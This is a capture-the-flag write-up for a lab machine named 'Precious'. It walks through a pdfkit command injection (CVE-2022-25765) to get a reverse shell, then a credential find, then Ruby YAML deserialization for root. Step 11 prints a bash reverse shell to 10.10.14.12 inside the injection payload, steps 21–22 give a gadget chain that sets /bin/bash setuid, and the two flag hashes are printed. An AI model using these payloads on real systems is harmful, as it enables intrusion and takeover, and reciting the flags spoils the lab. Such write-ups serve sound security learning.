 # Precious
> Write-up author: jon-brandy
## DESCRIPTION:
- NONE
## HINT:
- NONE
## STEPS:
1. First, scan all open ports and it's services from the host given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211276690-4fe354b9-3638-442c-9480-5805e5c76317.png)


2. Notice the machines seems running a web application, let's open the host on the web browser.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211276928-1b29c212-2439-47e0-bb58-720df75f81ff.png)


3. Let's enter `http://google.com`.

> RESULT


![image](https://user-images.githubusercontent.com/70703371/211277475-e4846599-d902-479b-b914-f14759cebfd4.png)


4. Already tried to enter my own ip but didn't get any pdf.
5. Let's serve http on port 8000 first.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211278408-539b23c8-4444-4b66-b25c-523dbc65ae6c.png)


![image](https://user-images.githubusercontent.com/70703371/211278442-8bd11666-3bf6-4d31-9e18-6631343ef3ca.png)


6. Great! We got it.
7. Check the meta data, to see if we can grab any clue.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211278752-fed9eaf3-6a3e-4eba-9701-42d0d4a7db02.png)


8. Notice the version of pdfkit is outdated and it's vulnerable.

> WRITTEN IN CVE MITRE

```
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-25765
```

9. Hence i did a small outsource about the approach they used for this vuln, found this link.

```
https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795
```

![image](https://user-images.githubusercontent.com/70703371/211280009-f3ea6bd2-9dcb-4218-9a6c-21564f5b39a0.png)


10. Let's use this payload.

![image](https://user-images.githubusercontent.com/70703371/211281122-658a8d9e-aeef-4b09-9790-90346f7bc779.png)


![image](https://user-images.githubusercontent.com/70703371/211281160-fc388b59-a2b1-4090-ae7c-4f14b5cbe665.png)



11. But change the "sleep" to this:

> REVERSE SHELL FOR BASH

```
bash -c 'exec bash -i &>/dev/tcp/10.10.14.12/443 <&1'
```

> FULL PAYLOAD

```
http://10.10.14.12:8000/?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.14.12/443 <&1'`'}
```

12. Set a listener using pwncat for port 443 because we use it on the payload, then submit the payload.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211281893-6d255475-b83c-4d5a-a4b4-95e1dca8bb68.png)


13. Nice, got the shell!

![image](https://user-images.githubusercontent.com/70703371/211282031-5b3733aa-a97b-43d1-ba4f-bdd2c5a8d20a.png)


14. Since we're not root, let's find the **user** flag.
15. Actually it took a while for me, i didn't find the user flag, but when i found a cred.

> CRED

![image](https://user-images.githubusercontent.com/70703371/211282795-4ac4805d-0d06-479e-a546-b724ade8623b.png)


![image](https://user-images.githubusercontent.com/70703371/211282841-1ab9201b-0882-42dc-b3db-a58d6251d0bb.png)


![image](https://user-images.githubusercontent.com/70703371/211282892-0983fd9a-a908-4ded-81a6-fd7d9c1e4aed.png)


16. Let's try login to henry with ssh.

> LOGGED IN

![image](https://user-images.githubusercontent.com/70703371/211283134-5b91c51d-bac1-4347-b43c-a4b5accd3f04.png)


![image](https://user-images.githubusercontent.com/70703371/211283181-d5f3768e-9de6-4663-8da5-1e92a3a7d620.png)


![image](https://user-images.githubusercontent.com/70703371/211283211-6ab3fdc2-86c6-4b6d-8e9f-0fe35035fc81.png)


17. Got the user flag.

## FLAG

```
3e73f31984a909e91e2952956243e048
```

18. Now for the root flag, we need to do privilege escalation.

![image](https://user-images.githubusercontent.com/70703371/211283528-aa43f568-2da8-4446-8dd2-9f03df4ef2f8.png)


![image](https://user-images.githubusercontent.com/70703371/211283681-9058d08a-0cb8-476d-85b1-a0ed887b1b1f.png)


![image](https://user-images.githubusercontent.com/70703371/211283919-d9f6f185-50df-428a-93cd-c0ea01e8b8e3.png)


19. Got a clue here:

![image](https://user-images.githubusercontent.com/70703371/211284959-72f6a994-de97-43dc-bdb6-7ddde19ab333.png)


20. Maybe we can do RCE through YAML upload file.
21. I did a small outsource about this yaml exploit. Turns out find [this](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/) website and there's a ruby script to do RCE.

> THE SCRIPT

```rb
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: sleep 600
          method_id: :resolve 
```

22. Change the git_set value to `chmod u+s /bin/bash`.

```rb
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod u+s /bin/bash"
         method_id: :resolve
```

23. Now make a new file named `dependencies.yml` then paste the script inside it. 
24. Next, to run the script, remember what we got from `sudo -l`.

> sudo -l

![image](https://user-images.githubusercontent.com/70703371/211287339-32dbd1cf-041f-4d4e-8e60-2d8629d355a8.png)


25. Hence, the command is -> `sudo /usr/bin/ruby /opt/update_dependencies.rb`

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211289639-890b827a-2837-4666-a99c-587d385b5f19.png)


26. Now run `bash -p`.

> RESULT - GOT ROOT

![image](https://user-images.githubusercontent.com/70703371/211291113-c2f2e37f-bf5a-4df3-8d7a-62c5dab142c6.png)


![image](https://user-images.githubusercontent.com/70703371/211291193-936e3376-89cb-4336-905f-44784a463a7d.png)


27. Got the root flag!

## FLAG

```
dbb4250350277d64ed7effdf09e7b59d
```
